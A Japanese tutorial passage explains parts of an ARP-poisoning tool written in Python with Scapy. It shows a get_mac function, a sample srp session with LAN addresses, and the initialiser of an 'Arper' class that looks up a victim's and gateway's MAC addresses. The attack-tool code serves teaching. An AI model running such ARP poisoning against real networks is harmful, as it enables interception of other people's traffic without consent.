 ARPポイゾニングにはターゲットとゲートウェイのMACアドレスを知る必要がある。
```python
def get_mac(targetip):     
    packet = Ether(dst = 'ff:ff:ff:ff:ff:ff')/ARP(op = "who-has", pdst = targetip)
    resp, _ = srp(packet, timeout = 2, retry = 10, verbose = False)
    for _, r in resp:
        return r[Ether].src
    return None
```

引数に与えたIPアドレスに対するMACアドレスを求めて返してくれる。


ScapyのEtherとARPでパケットオブジェクトを作る。

Etherの引数`dst = 'ff:ff:ff:ff:ff:ff'`はブロードキャストの意味。

ARPのpdstで対象としているIPアドレスを持っているか確認。

パケットを送信かつ受信したい時に使えるのがsr関数。

その仲間で、特にLayer2のパケット（Ethernetや802.3など）を扱う関数が今回使っているsrp関数。

srpとrespの中身は次を見てもらえれば分かる：

```python
>>> print(srp(packet, timeout = 2, retry = 10, verbose = False))
(<Results:TCP:0 UDP:0 ICMP:0 Other:1>, <Unanswered:TCP:0 UDP:0 ICMP:0 Other:0>)
>>> resp, _ = srp(packet, timeout = 2, retry = 10, verbose = False)
>>> resp
<Results:TCP:0 UDP:0 ICMP:0 Other:1>
>>> for i in resp:
...:     print(i)
...:
QueryAnswer(query=<Ether dst=ff:ff:ff:ff:ff:ff type=ARP |<ARP op=who-has pdst=192.168.2.1 |>>, answer=<Ether dst=38:f9:d3:66:d6:d8 src=bc:5c:4c:1c:28:1d type=ARP |<ARP 
hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=bc:5c:4c:1c:28:1d psrc=192.168.2.1 hwdst=38:f9:d3:66:d6:d8 pdst=192.168.2.105 |>>)
>>> 
```

## Arperクラスのメソッド

Arperクラスのメソッドはそこまで難しくない。

ここでは初期化メソッド、poisonメソッドについてだけ触れる。

### 初期化メソッド
```python
def __init__(self, victim, gateway, interface = 'en0'):
        self.victim = victim
        self.victimmac = get_mac(victim)
        self.gateway = gateway
        self.gatewaymac = get_mac(gateway)
        self.interface = interface
        conf.iface = interface
        conf.verb = 0

        print(f'Initialized {interface}: ')
        print(f"Gateway ({gateway}) is at {self.gatewaymac}.")
        print(f"Victim ({victim}) is at {self.victimmac}.")
        print('-' * 30)
```
